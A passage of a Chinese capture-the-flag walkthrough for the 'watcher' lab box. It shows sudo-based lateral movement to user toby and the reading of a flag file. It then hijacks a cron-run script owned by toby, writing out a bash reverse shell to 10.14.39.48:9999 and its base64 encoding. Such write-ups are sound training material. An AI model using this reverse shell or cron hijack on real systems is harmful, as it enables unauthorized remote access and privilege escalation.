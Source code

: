     www-data@watcher:/home$ sudo -u toby bash
    sudo -u toby bash
    toby@watcher:/home$ id
    id
    uid=1003(toby) gid=1003(toby) groups=1003(toby)

flag4:

    toby@watcher:/home$ cd ./toby
    cd ./toby
    toby@watcher:~$ ls -la
    ls -la
    total 44
    drwxr-xr-x 6 toby toby 4096 Dec 12  2020 .
    drwxr-xr-x 6 root root 4096 Dec  3  2020 ..
    lrwxrwxrwx 1 root root    9 Dec  3  2020 .bash_history -> /dev/null
    -rw-r--r-- 1 toby toby  220 Dec  3  2020 .bash_logout
    -rw-r--r-- 1 toby toby 3771 Dec  3  2020 .bashrc
    drwx------ 2 toby toby 4096 Dec  3  2020 .cache
    drwx------ 3 toby toby 4096 Dec  3  2020 .gnupg
    drwxrwxr-x 3 toby toby 4096 Dec  3  2020 .local
    -rw-r--r-- 1 toby toby  807 Dec  3  2020 .profile
    -rw------- 1 toby toby   21 Dec  3  2020 flag_4.txt
    drwxrwxr-x 2 toby toby 4096 Dec  3  2020 jobs
    -rw-r--r-- 1 mat  mat    89 Dec 12  2020 note.txt
    toby@watcher:~$ cat ./flag_4.txt
    cat ./flag_4.txt

## 横向移动2 - cron job

读取note.txt：

    Hi Toby,

    I've got the cron jobs set up now so don't worry about getting that done.

    Mat

查看crontab:

    cat /etc/crontab

    */1 * * * * mat /home/toby/jobs/cow.sh

查看该文件权限：

    -rwxr-xr-x 1 toby toby   46 Dec  3  2020 cow.sh

很幸运，toby是文件所有者，我们直接修改该脚本进行reverse shell

攻击机创建一个test1.txt并加入内容：

    #!/bin/bash
    /bin/bash -i >& /dev/tcp/10.14.39.48/9999 0>&1

将该文件内容base64编码

    ┌──(root🐦kali)-[/home/sugobet]
    └─# base64 ./test1.txt                                              
    IyEvYmluL2Jhc2gKL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjE0LjM5LjQ4Lzk5OTkgMD4m
    MQo=
